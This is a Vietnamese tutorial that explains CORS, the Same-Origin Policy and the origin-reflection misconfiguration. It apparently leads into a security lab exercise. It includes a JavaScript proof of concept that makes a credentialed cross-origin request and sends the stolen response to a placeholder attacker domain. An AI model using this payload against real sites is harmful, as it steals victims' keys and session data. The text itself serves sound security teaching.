

## CORS là gì?

CORS là cơ chế của trình duyệt cho phép một website kiểm soát việc truy cập tài nguyên từ một domain khác. CORS mở rộng và linh hoạt hơn Same-Origin Policy (SOP). Tuy nhiên, nếu cấu hình CORS không đúng hoặc quá lỏng lẻo, nó có thể tạo ra nguy cơ bị tấn công cross-domain. CORS không phải cơ chế bảo vệ chống các cuộc tấn công cross-origin như CSRF.

## Same-Origin Policy

Là cơ chế bảo mật hạn chế việc một website tương tác với tài nguyên thuộc domain khác. SOP được xây dựng để ngăn các hành vi nguy hiểm giữa các domain, chẳng hạn như một website đánh cắp dữ liệu riêng tư từ website khác. Thông thường, một domain có thể gửi request đến domain khác nhưng không được phép đọc response trả về.

## Nới lỏng Same-Origin Policy

Same-Origin Policy (SOP) khá nghiêm ngặt, nên nhiều phương pháp đã được phát triển để vượt qua các hạn chế này. Nhiều website cần tương tác với subdomain hoặc website bên thứ ba, vì vậy cần cho phép truy cập cross-origin đầy đủ. CORS cho phép nới lỏng SOP một cách có kiểm soát. CORS sử dụng một tập hợp HTTP header để xác định origin nào được tin cậy và các quyền liên quan, chẳng hạn như có cho phép truy cập kèm xác thực hay không. Các header này được trao đổi giữa trình duyệt và website khác origin mà trình duyệt đang muốn truy cập.

## Lỗ hổng do cấu hình CORS

Cấu hình CORS sai hoặc quá lỏng lẻo có thể cho phép origin không đáng tin cậy truy cập tài nguyên, từ đó tạo ra lỗ hổng bảo mật có thể khai thác.

### Server tự động tạo ACAO từ Origin do client gửi

Một số ứng dụng cần cho phép nhiều domain khác nhau truy cập. Việc duy trì danh sách domain được phép có thể phức tạp, nên một số ứng dụng chọn cách cho phép gần như mọi domain. Cách thường gặp là server đọc giá trị Origin từ request rồi phản chiếu giá trị đó vào header Access-Control-Allow-Origin.

Ví dụ:`Origin: https://malicious-website.com`

Server trả về:

```
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
```

Có nghĩa là:

- Domain malicious-website.com được phép truy cập tài nguyên.
- Request cross-origin được phép gửi kèm cookie.
- Request có thể được xử lý trong phiên đăng nhập của nạn nhân.

Vì server chấp nhận và phản chiếu bất kỳ Origin nào, nên bất kỳ website nào cũng có thể truy cập tài nguyên của website bị lỗi. Nếu response chứa dữ liệu nhạy cảm như API key hoặc CSRF token, kẻ tấn công có thể dùng JavaScript trên website độc hại để gửi request, đọc response và đưa dữ liệu về server của mình.

```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get', 'https://vulnerable-website.com/sensitive-victim-data', true);
req.withCredentials = true;
req.send();

function reqListener() {
    location = '//malicious-website.com/log?key=' + this.responseText;
};
```

Giải thích:

- XMLHttpRequest() → tạo request HTTP từ JavaScript.
- req.open('get', ...) → gửi GET request đến tài nguyên chứa dữ liệu nhạy cảm.
- req.withCredentials = true → yêu cầu gửi cookie/thông tin xác thực của phiên đăng nhập.
- req.send() → gửi request.
- this.responseText → lấy nội dung response từ server.
- location = ... → chuyển trình duyệt đến website của kẻ tấn công và đưa nội dung response vào URL để kẻ tấn công thu thập.

Lab 1: CORS vulnerability with basic origin reflection


